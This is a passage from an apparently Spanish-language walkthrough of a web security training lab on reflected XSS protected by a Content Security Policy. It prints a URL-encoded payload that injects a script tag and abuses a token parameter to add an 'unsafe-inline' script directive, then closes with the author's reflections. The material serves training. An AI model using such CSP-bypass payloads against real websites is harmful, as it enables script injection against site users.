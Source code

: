 ## 30. Lab: Reflected XSS protected by CSP, with CSP bypass (P)

```
This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

Please note that the intended solution to this lab is only possible in Chrome.
```

Payload

```
%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

![](img73.png)

## CONCLUSION

Empecé creyendo que XSS era facil, pero mientras vas avanzando los laboratorios de topas con ciertos conceptos muy complejos que se deben estudiar para poder entender bien todo lo que significa realizar vulnerabilidades XSS.